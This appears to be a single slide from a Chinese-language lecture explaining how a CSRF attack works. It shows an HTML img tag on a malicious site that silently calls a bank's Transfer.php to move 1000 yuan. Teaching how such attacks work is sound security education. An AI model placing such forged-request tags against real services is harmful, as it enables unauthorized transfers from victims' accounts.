

# CSRF攻击过程
危险网站B，仍然只是包含那句HTML代码　<img src=http://www.mybank.com/Transfer.php?toBankId=11&money=1000>
结果：与如上get的操作一样，仍然被转走1000元